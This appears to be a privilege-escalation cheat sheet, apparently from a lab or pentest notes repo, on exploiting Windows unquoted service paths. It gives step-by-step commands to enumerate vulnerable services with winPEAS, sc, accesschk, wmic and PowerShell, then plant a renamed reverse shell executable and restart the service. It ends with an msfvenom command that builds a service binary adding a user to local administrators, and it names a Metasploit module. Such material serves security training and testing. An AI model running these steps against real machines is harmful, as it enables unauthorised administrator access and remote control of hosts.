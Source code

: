 If the path to an executable is not inside quotes, Windows will try to execute every ending before a space.

For example, for the path _C:\Program Files\Some Folder\Service.exe_ Windows will try to execute:

```powershell
C:\Program.exe 
C:\Program Files\Some.exe 
C:\Program Files\Some Folder\Service.exe
```

1.Run winPEAS to check for service misconfigurations:  
`.\winPEASany.exe quiet servicesinfo`

> 2. Note that the “unquotedsvc” service has an unquoted path that  
>     also contains spaces:  
>     C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
>     
>     > No quotes and Space detected
>     

3.Confirm this using sc:  
`sc qc unquotedsvc`

4.Use accesschk.exe to check for write permissions:  
`.\accesschk.exe /accepteula -uwdq C:\`  
`.\accesschk.exe /accepteula -uwdq "C:\Program Files\"`  
`.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`  
5.Copy the reverse shell executable and rename it appropriately:  
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

6.Start a listener on Kali, and then start the service to trigger the exploit:  
`net start unquotedsvc`

List all unquoted service paths, excluding those belonging to built-in Windows services:

```bash
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ #Not only auto services

#Other way
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
	for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
		echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
	)
)
```

```bash
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

**You can detect and exploit** this vulnerability with metasploit: `exploit/windows/local/trusted\_service\_path` You can manually create a service binary with metasploit:

```bash
msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
```
